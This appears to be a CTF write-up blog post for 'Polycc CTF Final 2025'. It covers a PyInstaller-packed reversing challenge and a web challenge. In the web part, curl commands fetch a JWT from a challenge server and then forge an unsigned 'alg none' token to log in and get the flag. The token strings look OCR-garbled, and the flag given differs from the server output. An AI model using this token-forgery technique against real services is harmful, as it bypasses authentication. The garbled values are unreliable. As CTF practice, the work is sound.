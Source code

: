 ```yaml
---
title: "Polycc CTF Final 2025"
date: 2025-07-14 
categories: [WEB,REVERSING]
tags: [CTF]
image:
  path: https://wallpapers.com/images/high/cool-dramatic-sosuke-aizen-3gq9d7n1zs22yxuz.webp


description: Reverse Engineering Walkthrough and Web Exploitation
  
---
```

## 🧩 Reverse Engineering 

## Challenge Description 
Dont be fooled by the initial display; the flag shown when the program executes isn't the actual target .Your task is to uncover it by examining the depth of the executable's internal structure.There is something somewhere in Backend. 

## 💥 Exploit Analysis  

![can u](/assets/img/die.png) 

This file showing was packed by pyinstaller to exe file by using Pyinstaller Extractor Web to get the source code in python .

![can u](/assets/img/soul.png) 

```
Flag : ctfcw{wow_you_beat_me}
```

## 🌐 Web Exploitation  

## Challenge Description : None 

## Just Weird Thoughts

![can u](/assets/img/web-none.png)

# 💥 Exploit Analysis 

# 🕵️‍♀️ Source Code Analysis

<br>

```
try {
const tokenResponse = await fetch("/get_token");
const tokenData = await tokenResponse.json();
currentToken = tokenData.token;

const loginResponse = await fetch("/login", {
method: "POST",
headers: {
"Content-Type": "application/json",
},
body: JSON.stringify({ magic_token: currentToken }),
});

const loginData = await loginResponse.json();

if (loginResponse.ok) {
if (loginData.flag) {
showMessage(
"Success! " +
loginData.message +
"\n\nFlag: " +
loginData.flag,
"success"
);
} else {
showMessage("Logged in successfully!", "success");
}
} else {
showMessage("Access restricted: " + loginData.message, "error");
}
} catch (error) {
showMessage("Error: " + error.message, "error");
};

function showMessage(message, type) {
resultMessage.textContent = message;
resultMessage.className = "result-message";
resultMessage.classList.add(type + "-message");
resultMessage.style.display = "block";
}
;
```

```
const tokenResponse = await fetch("/get_token");
```

 
 By visiting /get_token will provide JWT Token .

```
$ curl http://35.185.184.31:3000/get_token
{"token":"eyJhb6c101JU2I1M15InR5cc16ItpXVCJ9 eyJpZCf6N8wIdXNLcm5hbMUiO1JDVzT1X IVzZX11LCJpYXQ10JESNTI2NDW2NZESImV4CCf6NTcIMjY0WzI3Wx0 idUM4RLrExfqt1a6RDevs3Tqa qDp11xovqq14wq384"}
```

I tried to change this earlier since on username : “CW25_Admin” only but looks its like required me to have the secret key i tried to find all the way the secret key and could find it and bruteforcing all the way . so I tried disable the alg and maybe the server are vulnerable to JWT Algorithm Confusion Attack .

```
[Kafka@faris]--[~]
$ curl -X POST http://35.185.184.31:3000/login \
> -H "Content-Type: application/json" \
> -d '{"magic_token":"eyJhb6c101Jub251I1wIdHlWljoiSldUrno eyJpZCf6N8wIdXNLcm5hbMUi O1JDVzT1X0FKbMU1uHaMF01joXkUyNjQzNjcxLCJ1eHA10jESNTI2NDcyNzF9."}'
{"flag":"CW25(CW25_CW25_CW25_CW25_CW25_!!!!!!)","message":"Congratulations ! You've solved the challenge!"}
```


```
Flag : ctfcw{CW25CW25_CW25_CW25_CW25_CW25_!!!!!!}
```







 









